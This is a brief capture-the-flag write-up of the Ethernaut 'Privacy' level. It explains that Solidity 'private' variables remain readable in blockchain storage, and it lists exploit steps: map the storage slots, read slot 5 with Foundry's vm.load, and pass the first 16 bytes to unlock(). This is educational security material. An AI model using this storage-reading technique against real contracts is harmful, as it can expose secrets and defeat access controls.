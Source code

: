 # 🎯 Vulnerability Report: Privacy (Ethernaut #12)

## 🔓 Vulnerability  
- **Type**: Insecure Visibility & Storage Exposure
- **Location**: `bytes32[3] private data` storage variables
- **Root Cause**:  
    -  Using private visibility for sensitive data (misleading security)
    - Storing secrets in publicly readable blockchain storage
  


 

## 🕵️‍♂️ How Did I Find It?  
1. **Code Review**:  
- Noticed all variables were marked private but had no real protection
- Saw the unlock key came from bytes16(data[2]) in storage

2. **Testing**:  
- Used Foundry's vm.load() to read raw storage slots
- Confirmed private data was fully readable

## 💥 Exploit Steps  
```js
1. Calculate storage layout:
   - Slot 0: locked (bool)
   - Slot 1: ID (uint256)
   - Slot 2: flattening+denomination+awkwardness (packed)
   - Slots 3: data[0]
   - Slot 4: data[1]
   - Slot 5: data[2]

2. Read Slot 5 where data[2] lives:
   bytes32 slot5Value = vm.load(contractAddress, 5);

3. Extract first 16 bytes:
   bytes16 key = bytes16(slot5Value);

4. Call unlock():
   privacyContract.unlock(key);
```   
